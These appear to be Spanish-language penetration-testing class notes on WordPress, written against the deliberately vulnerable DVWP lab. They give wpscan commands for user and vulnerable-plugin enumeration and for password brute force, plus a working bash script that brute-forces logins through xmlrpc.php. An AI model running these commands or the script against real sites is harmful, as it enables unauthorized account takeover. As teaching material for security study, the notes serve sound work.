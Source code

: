 # WordPress

Tags: #WordPress #CMS 

## Enumeración de gestores de contenido (CMS) – WordPress

WordPress es un CMS de código abierto muy popular que fue lanzado en 2003. Es utilizado por millones de sitios web en todo el mundo y se destaca por su facilidad de uso y flexibilidad. Con WordPress, los usuarios pueden crear y personalizar sitios web sin necesidad de conocimientos de programación avanzados. Además, cuenta con una amplia variedad de plantillas y plugins que permiten añadir funcionalidades adicionales al sitio.

El proyecto que utilizamos en esta clase para enumerar un WordPress es el siguiente:

-   **DVWP**: [https://github.com/vavkamil/dvwp](https://github.com/vavkamil/dvwp)

Una de las herramientas que utilizamos en esta clase para enumerar este gestor de contenido es **Wpscan**. Wpscan es una herramienta de código abierto que se utiliza para escanear sitios web en busca de vulnerabilidades de seguridad en WordPress.

Con Wpscan, podemos realizar una enumeración completa del sitio web y obtener información detallada sobre la instalación de WordPress, como la versión utilizada, los plugins y temas instalados y los usuarios registrados en el sitio. También nos permite realizar pruebas de fuerza bruta para descubrir contraseñas débiles y vulnerabilidades conocidas en plugins y temas.

Wpscan es una herramienta muy útil para los administradores de sitios web que desean mejorar la seguridad de su sitio WordPress, ya que permite identificar y corregir vulnerabilidades antes de que sean explotadas por atacantes malintencionados. Además, es una herramienta fácil de usar y muy efectiva para identificar posibles debilidades de seguridad en nuestro sitio web.

## Rutas típicas de WordPress en la web 

```python
/wp-login.php                        # Es la ruta del panel de autenticación 
/wordpress/wp-login.php
/wp-admin.php                        # Es la ruta del panel de autenticación de admin
/wp-admin/
/wp-json/wp/v2/users/                # Reporta usuarios validos en la pagina de WordPress en formato Json
/wp-content/plugins                  # Ver si podemos hacer 'directory listing' y ver los plugins existentes
/xmlrpc.php                          # Si esta expuesto, podemos enumerar usuarios 
```

## Ruta típica en consola

```python 
/var/www/html/                 # Ruta donde se encuentra 'phpinfo.php | wordpress | index.html'

# Archivos que se encuentran en 'admin', este tiene la configuracion del 'phpadmin'

# Archivos que se enecuentran dentro del directorio 'WordPress'
wordpress.conf                 # Archivo con configuracion del WordPress y se encuentra en /etc/apache2/sites-enabled/ 
wp-config.php                  # Archivo con credenciales de acceso a la DB, se encuentra en /var/www/html, o en la ruta /usr/share/wordpress/ y contiene todas las configuraciones 
wp-settings.php                # Se encarga de hacer la subida de los plugins


/wp-admin/                     # Directorio que contiene el formulario y se encuentra en /var/www/html/wordpress 
/wp-content/                   # Directorio que contiene los 'plugins, themes'
Nota: No se cuenta el 'index.php' como tema o plugin, ademas, si existe un 'plugin' que puede ser vulnerable, lo podemos explotar con 'Metasploit'
```
 
## WordPress Enumeración 

```bash 
# Enumeración
1. Buscar usuarios en la pagina Web y validarlos en el 'Panel de Login'
2. Aunque tengamos la utlima version de 'WordPress' mientras tenga 'Plugins' desactualizados, será vulnerable 
3. Buscar 'plugins' en el codigo fuente o usando el comando 'curl'
```

```bash
❯ wpscan --url ❮http://IP/❯                               # Detecta vulnerabilidades en un wordPress
```

```bash
❯ wpscan --url <http://URL/> -e u,vp                                          # Enumeracion 

	# e = Enumerar multiples cosas 
	# u = Enumerar usuarios
	# vp = Enumerar plugins vulnerables

❯ wpscan --url http://URL/ --passwords /usr/share/wordlists/rockyou.txt       # BruteForce

	# passwords = Enumerar passwords

❯ wpscan --url <http://URL/> -e u,vp --plugins-detection aggressive           # Enumeracion de plugins de manera agresiva 
	
	# plugins-detection = Enumeracion de plugins (mixed, passive, aggressive)
```

El **API Token** lo podemos descargar registrándonos desde la siguiente url:
* [API-Token](https://wpscan.com/register)

```bash
❯ wpscan --url <http://URL/> -e vp --api-token="DFFGB15GD68DG618GD81GRD"     # Enumeracion 

	# vp = Enumerar plugins vulnerables
	# api-token = Nos representa de mejor manera las vulnerabilidades con el API Token
```

```bash
❯ wpscan --url <http://IP/> -U <USER> -P /usr/share/wordlists/rockyou.txt # Fuerza bruta

	# P = Ruta del diccionario 
	# U = Usuario valido
```

```bash
❯ curl -s -X GET "http://IP/" | grep -oP 'plugins/\k[^/]+' | sort -u # Filtramos por plugins en la pagina web y ver si alguno es vulnerable y lo podriamos buscar en Searchsploit

	# \K = Quita la palabra de la izquierda (plugins) 
	# [^/]+ = Muestra hasta la primer barra derecha en la busqueda y quita todo lo de la derecha   
	# sort u = Quitar los resultados repetidos y dejar los 'unicos'
	# s = Modo silencioso 
```

## Abusando de xmlrpc.php

Si esta expuesto, podemos enumerar credenciales validas y solo acepta peticiones por **POST** y que este estructurada en **XML**
* Debemos de listar los métodos y lo haremos con el código del archivo y ver si existe el siguiente **wp.getUsersBlogs** y después aplicar fuerza bruta
* [Xmlrpc-Abuse](https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/)

```bash
❯ curl -s -X POST "http://IP/xmlrpc.php" -d@file.xml   # Forma de tramitar el archivo por POST

	# d@ = Indicamos el archivo que usaremos y es que esta abajo 
```

```bash
# Listamos los métodos en 'xmlrpc.php'

❯ nvim file.xml

	<?xml version="1.0" encoding="utf-8"?> 
	<methodCall> 
	<methodName>system.listMethods</methodName> 
	<params></params> 
	</methodCall>
```

```bash 
# Creamos un archivo llamado 'xmlrpc_bruteforce.sh' para hacer el ataque 'Brute force' y enumerar 

#!/bin/bash 

function ctrl_c(){
	echo -e "\n\n[!] Saliendo...\n"
	tput cnorm; exit 1
}

# Ctrl_c
trap ctrl_c INT

tput civis

function createXML(){
	password=$1

	xmlFile="""
	<?xml version=\"1.0\" encoding=\"UTF-8\"?>
	<methodCall> 
	<methodName>wp.getUsersBlogs</methodName> 
	<params> 
	<param><value>omar</value></param> 
	<param><value>$password</value></param> 
	</params> 
	</methodCall>
	"""
	echo $xmlFile > file.xml
	response=$(curl -s -X POST "http://IP/xmlrpc.php" -d@file.xml)

	if [ ! "$(echo $response | grep 'Incorrect username or password.')" ]; then 
		echo -e "\n[+] La contraseña para el usuario omar es $password"
		echo 0
	fi
}

cat /usr/share/wordlists/rockyou.txt | while read password; do 
	createXML $password
done 
```